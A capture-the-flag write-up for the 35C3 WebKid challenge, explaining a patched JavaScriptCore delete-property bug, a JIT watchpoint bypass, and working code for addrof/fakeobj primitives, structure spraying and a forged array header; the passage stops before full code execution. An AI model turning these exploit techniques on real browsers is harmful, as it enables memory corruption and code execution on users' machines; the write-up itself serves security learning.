

# 35C3CTF - WebKid Writeup

## Introduction

It's been a long time since I've wanted to get into browser exploitation and this 35c3ctf challenge seemed like a perfect opportunity to start.

This writeup will be written from the perspective of a complete beginner on the subject. Hopefully it will help people starting get a better understanding of some nuances. 

## The Challenge

The WebKid challenge can be found in the CCC archives: [https://archive.aachen.ccc.de/35c3ctf.ccc.ac/challenges/index.html](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/challenges/index.html) (JavaScript -> WebKid).

The description for the challenge is given below:

> We implemented an optimization inspired by v8. This patch is a 0.0001% performance improvement on certain microbenchmarks.
>
>Download the challenge files from [here](https://archive.aachen.ccc.de/35c3ctf.ccc.ac/uploads/WebKid-7a2c78814764c77b3b8e1d8391b9cabcb2a58810.zip) and submit your exploits [here](https://vms.35c3ctf.ccc.ac/). Password for the encrypted VM image is the flag for "sanity check".
>
>Difficulty estimate: medium

The objective is to exploit a vulnerability introduced in JavaScriptCore by a software optimization patch and gain code execution in the context of the browser. Escaping its sandbox is the goal of another challenge in the same category: `chaingineering`.

Once downloaded and extracted, we can see that the zip file contains a prebuilt version of WebKit, a description of the challenge in `README.md`, as well as a patch named `webkid.patch`.

`README.md` gives the hash of the commit patched for this challenge (which is `5ef29f6546523aa48e18da64735aa164c9bc7de6`).

```markdown
# WebKid

Challenge files for the WebKid (/flag1) and the chaingineering challenge (/flag2).

The patch was tested against commit 5ef29f6546523aa48e18da64735aa164c9bc7de6 of https://github.com/WebKit/webkit/. The binaries were built from that commit.

Check the visit.sh script to see how the server renders your website with the patched WebKit.

See VM/ for the virtual machine setup used on the server. You'll know the password for the VM image when you see it.
```

`webkid.patch` is a simple `diff` highlighting the modifications made to this challenge.

```c
diff --git a/Source/JavaScriptCore/runtime/JSObject.cpp b/Source/JavaScriptCore/runtime/JSObject.cpp
index 20fcd4032ce..a75e4ef47ba 100644
--- a/Source/JavaScriptCore/runtime/JSObject.cpp
+++ b/Source/JavaScriptCore/runtime/JSObject.cpp
@@ -1920,6 +1920,31 @@ bool JSObject::hasPropertyGeneric(ExecState* exec, unsigned propertyName, Proper
     return const_cast<JSObject*>(this)->getPropertySlot(exec, propertyName, slot);
 }
 
+static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
+{
+    ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));
+
+    Structure* previous = structure->previousID();
+    if (!previous)
+        return false;
+
+    unsigned unused;
+    bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
+    if (!isLastAddedProperty)
+        return false;
+
+    RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);
+
+    if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
+        ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
+        thisObject->setButterfly(vm, nullptr);
+    }
+
+    thisObject->setStructure(vm, previous);
+
+    return true;
+}
+
 // ECMA 8.6.2.5
 bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName propertyName)
 {
@@ -1946,18 +1971,21 @@ bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName proper
 
     Structure* structure = thisObject->structure(vm);
 
-    bool propertyIsPresent = isValidOffset(structure->get(vm, propertyName, attributes));
+    PropertyOffset offset = structure->get(vm, propertyName, attributes);
+    bool propertyIsPresent = isValidOffset(offset);
     if (propertyIsPresent) {
         if (attributes & PropertyAttribute::DontDelete && vm.deletePropertyMode() != VM::DeletePropertyMode::IgnoreConfigurable)
             return false;
 
-        PropertyOffset offset;
-        if (structure->isUncacheableDictionary())
+        if (structure->isUncacheableDictionary()) {
             offset = structure->removePropertyWithoutTransition(vm, propertyName, [] (const ConcurrentJSLocker&, PropertyOffset) { });
-        else
-            thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
+        } else {
+            if (!tryDeletePropertyQuickly(vm, thisObject, structure, propertyName, attributes, offset)) {
+                thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
+            }
+        }
 
-        if (offset != invalidOffset)
+        if (offset != invalidOffset && (!isOutOfLineOffset(offset) || thisObject->butterfly()))
             thisObject->locationForOffset(offset)->clear();
     }
 
diff --git a/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in b/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
index 536481ecd6a..62189fea227 100644
--- a/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
+++ b/Source/WebKit/WebProcess/com.apple.WebProcess.sb.in
@@ -25,6 +25,12 @@
 (deny default (with partial-symbolication))
 (allow system-audit file-read-metadata)
 
+(allow file-read* (literal "/flag1"))
+
+(allow mach-lookup (global-name "net.saelo.shelld"))
+(allow mach-lookup (global-name "net.saelo.capsd"))
+(allow mach-lookup (global-name "net.saelo.capsd.xpc"))
+
 #if PLATFORM(MAC) && __MAC_OS_X_VERSION_MIN_REQUIRED < 101300
 (import "system.sb")
 #else
```

## Interlude: Setting Up a Debugging Environment

The version of WebKit provided is a release version and, as far as I know, you cannot use handy tools such as [lldb_webkit.py](https://github.com/adobe/webkit/blob/master/Tools/lldb/lldb_webkit.py), which transforms... 

```
(lldb) x/20gx $rsi
0x107db0080: 0x0100160000000128 0x0000000000000000
0x107db0090: 0x0000000107d6c040 0xffff00000000007b
0x107db00a0: 0x0000000107db4340 0x0000000000000000
0x107db00b0: 0x0000000000000000 0x0000000000000000
```

... into ...

```
(lldb) p *(JSC::JSObject*) $rsi
(JSC::JSObject) $2 = {
  JSC::JSCell = {
    m_structureID = 296
    m_indexingTypeAndMisc = '\0'
    m_type = FinalObjectType
    m_flags = '\0'
    m_cellState = DefinitelyWhite
  }
  m_butterfly = (m_value = 0x0000000000000000)
}
```

Also, the VM provided during the CTF was way too unstable on my machine (random freezes, crashes, etc.), I've decided to rebuild a debug version on a native OSX. If some people want to solve this challenge on something that is not `qemu`, the steps I followed are given below.

First, we need to download WebKit:

```bash
git clone https://github.com/webkit/webkit
```

Then, checkout the right commit:

```bash
git checkout 5ef29f6546523aa48e18da64735aa164c9bc7de6
```

Apply the patch:

```bash
patch -p1 < /path/to/WebKid/webkid.patch
```

Now, we can compile JavaScriptCore in debug mode:

```bash
./Tools/Scripts/build-webkit --debug --jsc-only --cmakeargs="-DENABLE_STATIC_JSC=ON -DUSE_THIN_ARCHIVES=OFF"
```

Once it's done compiling, we can add the `lldb_webkit.py` script, found in `/path/to/webkit/Tools/lldb/lldb_webkit.py`, to the `~/.lldbinit` configuration file, which loads the script when lldb starts, with the following command:

```
echo "command script import /path/to/webkit/Tools/lldb/lldb_webkit.py" >> ~/.lldbinit
```

Now, if we create the file `/tmp/test.js` and write the following lines into it:

```js
var a = {};

a.a = 123;
a.b = [1, 2, 3, 4];
a.c = "hello";

delete a.c;
```

We can launch `jsc` with `lldb` while executing this JS script:

```
lyte ~/e/webkit> lldb ./WebKitBuild/Debug/bin/jsc /tmp/test.js
(lldb) target create "./WebKitBuild/Debug/bin/jsc"
Current executable set to './WebKitBuild/Debug/bin/jsc' (x86_64).
(lldb) settings set -- target.run-args  "/tmp/test.js"
(lldb)
```
We can also set breakpoints on functions interesting to us...

```
(lldb) b JSC::JSObject::deleteProperty
Breakpoint 4: where = jsc`JSC::JSObject::deleteProperty(JSC::JSCell*, JSC::ExecState*, JSC::PropertyName) + 23 at JSObject.cpp:1951, address = 0x0000000101396ca7
(lldb) b JSC::tryDeletePropertyQuickly
Breakpoint 5: where = jsc`JSC::tryDeletePropertyQuickly(JSC::VM&, JSC::JSObject*, JSC::Structure*, JSC::PropertyName, unsigned int, int) + 32 at JSObject.cpp:1925, address = 0x00000001013a6bf0
```
...and debug the progam from here:

```
(lldb) r
Process 16331 launched: './WebKitBuild/Debug/bin/jsc' (x86_64)
Process 16331 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 4.1
    frame #0: 0x0000000101396ca7 jsc`JSC::JSObject::deleteProperty(cell=0x00000001075c8280, exec=0x00007ffeefbfd930, propertyName=PropertyName @ 0x00007ffeefbfd740) at JSObject.cpp:1951
   1948	// ECMA 8.6.2.5
   1949	bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName propertyName)
   1950	{
-> 1951	    JSObject* thisObject = jsCast<JSObject*>(cell);
   1952	    VM& vm = exec->vm();
   1953
   1954	    if (std::optional<uint32_t> index = parseIndex(propertyName))
Target 0: (jsc) stopped.
(lldb) c
Process 16331 resuming
Process 16331 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 5.1
    frame #0: 0x00000001013a6bf0 jsc`JSC::tryDeletePropertyQuickly(vm=0x0000000107100000, thisObject=0x00000001075c8280, structure=0x0000000107570460, propertyName=PropertyName @ 0x00007ffeefbfd650, attributes=0, offset=100) at JSObject.cpp:1925
   1922
   1923	static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
   1924	{
-> 1925	    ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));
   1926
   1927	    Structure* previous = structure->previousID();
   1928	    if (!previous)
Target 0: (jsc) stopped.
(lldb) p *(JSC::JSObject*) $rsi
(JSC::JSObject) $0 = {
  JSC::JSCell = {
    m_structureID = 297
    m_indexingTypeAndMisc = '\0'
    m_type = FinalObjectType
    m_flags = '\0'
    m_cellState = DefinitelyWhite
  }
  m_butterfly = (m_value = 0x00000008000fe6c8)
}
```

Now that we have a fancy debug environment, we can focus on finding the vulnerability. :)

## The Vulnerability

If you're as illiterate on browser exploitation as I was when I first started, I recommend reading the Phrack article written by saelo on the subject, because it is heavily referenced in the rest of this writeup: [http://www.phrack.org/papers/attacking\_javascript\_engines.html](http://www.phrack.org/papers/attacking_javascript_engines.html). It's a great in-depth introduction to the internals of JavaScriptCore and to the first steps of browser exploit development.

With that in mind, I started looking for the vulnerability in the patch. Let's first analyze the code that was modified.

### Patch Analysis

Once patched, `deleteProperty` looks like this:

```cpp
bool JSObject::deleteProperty(JSCell* cell, ExecState* exec, PropertyName propertyName)
{
    JSObject* thisObject = jsCast<JSObject*>(cell);
    VM& vm = exec->vm();
    // [...]
    unsigned attributes;
    // [...]
    Structure* structure = thisObject->structure(vm);

    PropertyOffset offset = structure->get(vm, propertyName, attributes);
    bool propertyIsPresent = isValidOffset(offset);

    // Check if the property exists in the current structure
    if (propertyIsPresent) {
        // [...]

        // If the dictionary is uncacheable, remove the property without transition
        if (structure->isUncacheableDictionary()) {
            offset = structure->removePropertyWithoutTransition(vm, propertyName, [] (const ConcurrentJSLocker&, PropertyOffset) { });
        }
        // However, if the dictionary is cacheable...
        else {
            // ...the newly added function, tryDeletePropertyQuickly, is called... 
            if (!tryDeletePropertyQuickly(vm, thisObject, structure, propertyName, attributes, offset)) {
                // ...but if it fails, it falls back to the original code which sets the structure of the current object, with 
                // setStructure, once the property has been removed from the current structure, with removePropertyTransition
                thisObject->setStructure(vm, Structure::removePropertyTransition(vm, structure, propertyName, offset));
            }
        }

        if (offset != invalidOffset && (!isOutOfLineOffset(offset) || thisObject->butterfly()))
            thisObject->locationForOffset(offset)->clear();
    }

    return true;
}
```
In essence, this piece of code first checks if the property exists in the current structure. Then it verifies if whether or not the dictionary is cacheable and, if it is, the execution jumps to the function `tryDeletePropertyQuickly` which was added by the patch. If the call fails, it falls back to the original code:

```cpp
thisObject->setStructure(vm, Structure::removePropertyTransition(vm,  Tstructure, propertyName, offset));
```

Structures are detailed by saelo in the Phrack article linked above. Another explanation is also given in a WebKit's blogpost, which I recommend reading: [https://webkit.org/blog/6756/es6-feature-complete/](https://webkit.org/blog/6756/es6-feature-complete/).
An overly-simplified summary of these would be that structures are essentially linked lists describing the shape of an object. Each element in this list associates one, or more, named property to an offset in the object. Adding, modifying, or deleting a property causes a structure to *transition*.



Let's take a look at `tryDeletePropertyQuickly`:

```cpp
static bool tryDeletePropertyQuickly(VM& vm, JSObject* thisObject, Structure* structure, PropertyName propertyName, unsigned attributes, PropertyOffset offset)
{
    ASSERT(isInlineOffset(offset) || isOutOfLineOffset(offset));

    // Retrieves the previous Structure in the linked list
    Structure* previous = structure->previousID();
    if (!previous)
        return false;

    unsigned unused;
    // Makes sure that the property we're trying to delete in the current object
    // does not exist in the previous structure describing it
    // i.e. it is the latest added property to the object
    bool isLastAddedProperty = !isValidOffset(previous->get(vm, propertyName, unused));
    if (!isLastAddedProperty)
        return false;

    // Makes sure that adding the property to the previous structure actually creates the current one
    RELEASE_ASSERT(Structure::addPropertyTransition(vm, previous, propertyName, attributes, offset) == structure);

    // If the named property (left of the butterfly) we're trying to delete is the only one stored in the butterfly
    // and there is no value indexed in it (right of the butterfly) then the butterfly can be deleted
    if (offset == firstOutOfLineOffset && !structure->hasIndexingHeader(thisObject)) {
        ASSERT(!previous->hasIndexingHeader(thisObject) && structure->outOfLineCapacity() > 0 && previous->outOfLineCapacity() == 0);
        thisObject->setButterfly(vm, nullptr);
    }

    // If all checks passed, the previous structure is used to describe the current object, thus effectively
    // deleting the property we wanted to get rid of
    thisObject->setStructure(vm, previous);

    return true;
}
```
This function checks if we're trying to delete the latest added property from the object and, if that's the case, use the previous structure in the linked list to describe the current object.

In other words, the following code would trigger the function:

```javascript
var point = {};
point.x = 10;
point.y = 20;

delete point.y;

// Here we would go from the structure describing "point" with
// the property x and y, to the previous structure describing
// point with only x.
```

But this one would not:

```javascript
var point = {};
point.x = 10;
point.y = 20;

delete point.x;

// Here we would go from the structure describing "point" with
// the property x and y, to a newly created one which describes
// point with only y.
// This happens because tryDeletePropertyQuickly fails and falls
// back to Structure::removePropertyTransition.
```

At this point I realized that, `tryDeletePropertyQuickly` removes a property just like `removePropertyTransition` would, the difference being there are no transition in the former. I had a feeling it would be the reason why this code is vulnerable, but I had no idea what the implications would be and how to exploit it.

After spending quite a few hours on this, I gave up and read this writeup By Linus Henze: [https://github.com/LinusHenze/35C3_Writeups/blob/master/WebKid/README.md](https://github.com/LinusHenze/35C3_Writeups/blob/master/WebKid/README.md).

Basically, the vulnerability is indeed related to the fact that there is no transition made in `tryDeletePropertyQuickly`. But the exploitation relies on the usage of the JIT engine.

Linus gives the following example and explanation:

```javascript
myArray = [13.37, 73.31];

function returnElem() {
    return myArray[0];
}

// Force JIT compilation of returnElem
for (var i = 0; i < 100000; i++)
    returnElem();

print(returnElem()); // Using JSC's print function
```

> The interesting part is when the returnElem function is JIT compiled. Because the JIT compiler is smart, it will create a highly optimized version of returnElem, which doesn't contain any structure checks for myArray at all. Instead, the JIT compiler will place a Watchpoint on myArray's structure.
>
> If this Watchpoint fires, the JITed version of the returnElem function will be immediately destroyed and the interpreter will be used on subsequent calls. The Watchpoint only fires if a structure transition occurs.
>
>Now, if we could change myArray without triggering the Watchpoint, we could easily exploit this! Thankfully, we've got this new tryDeletePropertyQuickly function. If it succeeds, it will change the structure of the passed-in object, without triggering a structure transition, therefore not triggering any Watchpoints that might be present!

### JIT Engine Optimizations

The first thing I did after reading this, was to look up how the JIT engine works. In-depth presentations are given by WebKit [here](https://webkit.org/blog/3362/introducing-the-webkit-ftl-jit/) and [here](https://webkit.org/blog/5852/introducing-the-b3-jit-compiler/). Saelo also did a more general and security-oriented talk on the subject at [BHUSA18](https://webkit.org/blog/5852/introducing-the-b3-jit-compiler/).

Basically, the JIT engine currently has four tiers: the LLInt (Low-Level Interpreter), the Baseline JIT, the DFG JIT (Data Flow Graph JIT) and the FTL JIT (Faster Than Light JIT). All instructions enter into the LLInt and, if a given set of instructions has been executed a sufficient amount of time, it goes to the Baseline JIT where it will be optimized, then into the DFG JIt, etc. All tiers have different optimization strategies and the further down you go, the better are the performances during runtime, but at a greater startup cost.

The writeup explains that the optimizations are such that there is no check on what the object actually contains. It assumes that the object does not change during the 100000 calls to `returnElem` and if, at some point, the structure describing it were to be modified, a transition would trigger a Watchpoint, which would invalidate the current jitted code and return to a previous version of it where verifications are performed.

Some types of Watchpoints are explained in the [WebKit's article](https://webkit.org/blog/6756/es6-feature-complete/) linked above. It's possible to draw parallels from there, although I wasn't able to find something more precise on the subject. I experienced a little bit with them, though.

If we take the following example and put into the file `/tmp/test1.js`:

```javascript
var obj = [4.2];
obj.a = 10;
obj.b = 20;

delete obj.a;
```

Then, execute `jsc` in `lldb` and put a breakpoint on `JSC::Watchpoint::fire`, which is responsible for triggering the watchpoint, we can see that the Watchpoint is not fired:

```
lyte ~/e/webkit> lldb ./WebKitBuild/Debug/bin/jsc
The "trace" python command has been installed and is ready for use.
(lldb) target create "./WebKitBuild/Debug/bin/jsc"
Current executable set to './WebKitBuild/Debug/bin/jsc' (x86_64).
(lldb) b JSC::Watchpoint::fire
Breakpoint 1: where = jsc`JSC::Watchpoint::fire(JSC::VM&, JSC::FireDetail const&) + 28 at Watchpoint.cpp:54, address = 0x00000001004bf36c
(lldb) r /tmp/test1.js
Process 1393 launched: './WebKitBuild/Debug/bin/jsc' (x86_64)
Process 1393 exited with status = 0 (0x00000000)
```

However, if we execute the following code instead:

```javascript
var obj = [4.2];
obj.a = 10;
obj.b = 20;

function get_first_elmt() {
    return obj[0];
}

for (var i = 0; i < 100000; i++) {
    get_first_elmt();
}

delete obj.a; 
```
The Watchpoint is now triggered, because the code of `get_first_elmt` went through the JIT engine.

```
(lldb) r /tmp/test1.js
Process 1399 launched: './WebKitBuild/Debug/bin/jsc' (x86_64)
Process 1399 stopped
* thread #1, queue = 'com.apple.main-thread', stop reason = breakpoint 1.1
    frame #0: 0x00000001004bf36c jsc`JSC::Watchpoint::fire(this=0x0000000107297370, vm=0x0000000107300000, detail=0x00007ffeefbfd400) at Watchpoint.cpp:54
   51
   52  	void Watchpoint::fire(VM& vm, const FireDetail& detail)
   53  	{
-> 54  	    RELEASE_ASSERT(!isOnList());
   55  	    fireInternal(vm, detail);
   56  	}
   57
Target 0: (jsc) stopped.
```
The structure describing the object has been changed, since we delete the first property, and not the last, a transition occurs. The JIT engine is notified and invalidates all the optimized code.

Now, if we execute the code below:

```javascript
var obj = [4.2];
obj.a = 10;
obj.b = 20;

function get_first_elmt() {
    return obj[0];
}

for (var i = 0; i < 100000; i++) {
    get_first_elmt();
}

delete obj.b;
```
Then the Watchpoint does not trigger.

```
(lldb) r /tmp/test2.js
Process 1409 launched: './WebKitBuild/Debug/bin/jsc' (x86_64)
Process 1409 exited with status = 0 (0x00000000)
```
Which is coherent, since the last property is deleted, therefore `tryDeletePropertyQuickly` is called and removes it without transition. The Watchpoint does not trigger and the jitted code is not invalidated. Based on this, since I haven't actually looked at the jitted code, I assume the jitted code looks something like this:

```
JIT_get_first_elmt:
    ; [...]
    mov     $rdi, lastStructureId   ; The hardcoded address of the structure which describes obj with an array and the properties x and y
    call    hasWatchpointFired      ; Not an actual WebKit's function name, but I guess they have a similar
                                    ; mechanism to check whether or not a Watchpoint fired 
    cmp     $rax, 0
    jnz     bailout                 ; Abandoning the jitted code to take a slower path since checks have failed
    mov     $rax, obj               ; Hardcoded address of obj
    mov     $rax, [$rax+0x4]        ; obj's butterfly
    mov     $rax, [$rax]            ; Retrieves the first element in obj's array
    ret                             ; Returns the first element in obj's array as a double
```

### Proof of Concept

Assuming this code is correct, we could leak addresses of objects by creating a type confusion between an object and a double in the first element of `obj`'s array. However, we would need to bypass the call to `hasWatchpointFired`. But since we have `tryDeletePropertyQuickly`, it should be pretty easy since it allows us to prevent transitions from happening and, therefore, Watchpoints from triggering. Let's see how we could do that.

**Note:** Types representation and how type confusion between a pointer and a double works are explained by Saelo in his Phrack article. tl;dr arrays of doubles are stored in native representation as opposed to the NaN-boxed representation.

Below is a commented PoC leaking the address of an object.

```javascript
var obj = [4.2];
/*
  An array obj is created and is described by a simple Structure:
    
    +-------------------+
    |                   |
    |  Original  array  |
    | (current  struct) |
    +-------------------+
*/

obj.a = 10;
/*
  A new property is added dynamically, which means a new Structure has to be created
  to describe the new object:
    
    +-------------------+       +-------------------+
    |                   |       |                   |
    |  Original  array  | ----> | Added  property a |
    |                   |       | (current  struct) |
    +-------------------+       +-------------------+
*/

obj.b = 20;
/*
  Same scenario as above:
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       |                   |
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       |                   |       | (current  struct) |
    +-------------------+       +-------------------+       +-------------------+
*/

function get_first_elmt() {
    return obj[0];
}

for (var i = 0; i < 100000; i++) {
    get_first_elmt();
}
/*
  Now the function get_first_elmt is jitted. It expects to read the first element of
  the array stored in obj as a double. Since all these information are stored in
  the structure describing obj, a watchpoint is put on it by the JIT engine. 
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       | (Watchpoint here)	|
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       |                   |       | (current  struct) |
    +-------------------+       +-------------------+       +-------------------+
*/

delete obj.b;
/*
  The latest added property, b, is removed with tryDeletePropertyQuickly. No transition
  occurs and the watchpoint is not triggered. However, the structure used to describe
  the object obj is changed back to "Added property a".
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       | (Watchpoint here)	|
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       | (current  struct) |       |                   |
    +-------------------+       +-------------------+       +-------------------+
*/

obj[0] = {};
/*
  Now we can do almost anything we want on obj. It will not trigger the Watchpoint
  on the structure "Added property b", since we're modifying a completely different
  object.
  Here I replaced the first element of the array from a double to an object.
  Printing it in the following instruction will leak its address.
    
    +-------------------+       +-------------------+       +-------------------+
    |                   |       |                   |       | (Watchpoint here)	|
    |  Original  array  | ----> | Added  property a | ----> | Added  property b |
    |                   |       |                   |       |                   |
    +-------------------+       +-------------------+       +-------------------+
                                          |
                                          |
                                          v
                                +-------------------+
                                |                   |
                                |  New typed array  |
                                | (current  struct) |
                                +-------------------+
*/

print(get_first_elmt()); // Leak of an object's address.
```

And, indeed, when launched it leaks the address of the object in the array (formatted as a double).

```
lyte ~/e/webkit> ./WebKitBuild/Debug/bin/jsc ../../ctf/35c3/webkid/WebKid/poc.js
2.256530957e-314
```

## The Exploit

The following section is dedicated to the exploitation of the vulnerability and will be heavily based on saelo's Phrack article.

In his article, he explains that exploitation is possible by crafting two primitives:

 * **addrof**, which leaks the address of an arbitrary JavaScript object;
 * **fakeobk**, which injects a fake JavaScript Object into the engine.

### Crafting addrof and fakeobj Primitives

An annoted snippet of code implementing the two primitives `addrof` and `fakeobj` is given below. They are both really similar to the PoC from the previous section.

```javascript
// Array of doubles used to train the JIT engine.
var primitives_hax = [4.2];

/*
 * Property added to the object which will be deleted later on to trigger
 * the vulnerability and be able to change the object as desired without
 * triggering a watchpoint.
 */
primitives_hax.a = 10;

// Function getting a value.
function get_first_elmt() {
    return primitives_hax[0];
}

// Function setting a value.
function set_first_elmt(elmt) {
    return primitives_hax[0] = elmt;
}

print("[+]\tJIT compilation of get_first_elmt and set_first_elmt.");
for (var i = 0; i < 100000; i++) {
    get_first_elmt(); 		// Function JIT compiled to get a double value.
    set_first_elmt(4.2);	// Function JIT compiled to set a double value. 
}

/* 
 * Apply a previous structure to primitives_hax without transition to
 * make sure the watchpoint is not triggered.
 * Now it is possible to change the object without invalidating the
 * JIT compiled code.
 */
delete primitives_hax.a;

/* 
 * addrof primitive based on get_first_elmt. Since get_first_elmt is
 * JIT compiled to be used with double values, now that it's possible to
 * change the object without invalidating it, an object can be passed to
 * it (instead of a double) to retrieve its address (instead of the
 * double value stored).
 */
function addrof(o) {
    primitives_hax[0] = o;
    return Int64.fromDouble(get_first_elmt());
}

/* 
 * fakeobj primitive based on set_first_elmt. Since set_first_elmt is
 * JIT compiled to be used with double values, now that it's possible to
 * change the object without invalidating it, an object can be passed to
 * it (instead of a double) to set an object's address in memory (instead
 * of storing a double value).
 */
function fakeobj(addr) {
    set_first_elmt(addr.asDouble());
    return primitives_hax[0];
}
```

### Crafting Arbitrary Read and Write Primitives

Now, based on these two primitives, we are going to construct arbitrary read and write primitives, which will ultimately give us code execution. 

My first exploit was based on saelo's Phrack article, but it seems like this technique does not work anymore. This technique creates a fake Float64Array in memory, then changes the address of its backing memory to a UInt8Array, which is then used to map arbitrary location in memory (because of the restrictions on JSValues, the Phrack article explains it pretty well). 

```
+----------------+                  +----------------+
|  Float64Array  |   +------------->|  Uint8Array    |
|                |   |              |                |
|  JSCell        |   |              |  JSCell        |   
|  butterfly     |   |              |  butterfly     |   
|  vector  ------+---+              |  vector  ------+---> arbitrary location
|  length        |                  |  length        |
|  mode          |                  |  mode          |
+----------------+                  +----------------+
```

However, changing the address of the backing memory of the UInt8Array using the Float64Array does not work, even though the fake Float64Array is valid and the vector array points to a valid Uint8Array.

I then realized that Saelo also released a writeup for that challenge: [https://github.com/saelo/35c3ctf/tree/master/WebKid](https://github.com/saelo/35c3ctf/tree/master/WebKid). The technique he uses is different from the one explained in his article and is detailed below.

#### Overview

The idea behind this technique is to first create a valid fake array, named `hax`, containing doubles in the engine's memory. Since `hax` is user-controlled, its butterfly can be set to an arbitrary address. In the case of this exploit, the butterfly will be set to point to another user-controlled array of doubles, named `victim`.

`victim` is created with a first property called `pointer`, storing a double, which will be located in its butterfly at the offset `-0x10`.

```
+--------------+      +--------------+      +-----------------------+
| Array #1     | +--> | Array #2     |      | Original Butterfly    |
| (hax)        | |    | (victim)     |      | (victim's butterfly)  |
|              | |    |              |      |                       |
| Structure ID | |    | Structure ID |      | ...                   |
| Butterfly ---+-+    | Butterfly ---+-+    | property 0 -> pointer |
+--------------+      +--------------+ |    | public len|vector len |
                                       +--->| array slot 0          |
                                            | ...                   |
                                            +-----------------------+
```
`victim`'s butterfly can be changed using `hax`. Therefore, by changing its butterfly to the address `addr+0x10`, it is possible to to write an arbitrary value at `addr` by modifying the value stored in `victim.pointer`. The same can be done to read a value, although it is limited since `NaN` value cannot be read using this technique (this limitation does not impact the exploit).

```
+--------------+      +--------------+      +-----------------------+
| Array #1     | +--> | Array #2     |      | Original Butterfly    |
| (hax)        | |    | (victim)     |      | (victim's butterfly)  |
|              | |    |              |      |                       |
| Structure ID | |    | Structure ID |      | ...                   |
| Butterfly ---+-+    | Butterfly ---+-+    | property 0 -> pointer |
+--------------+      +--------------+ |    | public len|vector len |
                                       |    | array slot 0          |
                                       |    | ...                   |
                                       |    +-----------------------+
                                       |
                                       |    +-----------------------+
                                       |    | Fake Butterfly        |
                                       |    | (victim's butterfly)  |
                                       |    |                       |
                                       |    | ...                   |
                                       |    | addr -> "pointer"     |
                                       |    | addr + 0x8            |
                                       +--->| addr + 0x10           |
                                            | ...                   |
                                            +-----------------------+
```

#### Details

The exploit itself starts by spraying the engine with array structures containing doubles in order to guess their ID. This will be used later on to create our fake `hax` object.

```javascript
var structs = [];
for (var i = 0; i < 0x1000; ++i) {
    var array = [13.37];
    array.pointer = 1234;
    array['prop' + i] = 13.37;
    structs.push(array);
}
```

The `victim` array described in the previous section is taken from the `structs` array defined above in the spraying loop. This is a way to ensure that the bytes preceeding the array object in memory are not null. It is important because `victim` will be treated as `hax`'s butterfly later on, and those preceeding bytes will represent its length, which is why they cannot be null.

```javascript
var victim = structs[0x800];
```

To build a fake array `hax` containing doubles, we need to use a valid `JSCell` to describe it. An annoted snippet of code creating a valid one is given below. 

```
var js_cell_header = new Int64([
    0x0, 0x10, 0x0, 0x0,    // m_structureID: current guess is set to 0x1000.
    0x7,                    /*
                             * m_indexingType: I don't know, it's taken from
                             * the header of a similar object and was found
                             * through debugging.
                             */
    0x20,                   // m_type: ArrayType (DerivedArrayType also works)
    0x08,                   // m_flags: None
    0x1                     // m_cellState: DefinitelyWhite
]);
```
An array object contains a `JSCell` to describe the object and an address to a butterfly containing its values. These values, used for creating `hax`, are put inside a containing object, named `container`. The properties `header` and `butterfly` are inlined in the object `container`. Which is why we obtain the following layout in memory:

```
 +-----------------------------------------------+
 | Container Object                              |
 |                                               |
 | 0x00: container's header                      |
 | 0x08: container's butterfly                   |
 | 0x10: property header -> hax's header         | <--- Where hax will
 | 0x18: property butterfly -> hax's butterfly   |      need to point.
 +-----------------------------------------------+
```

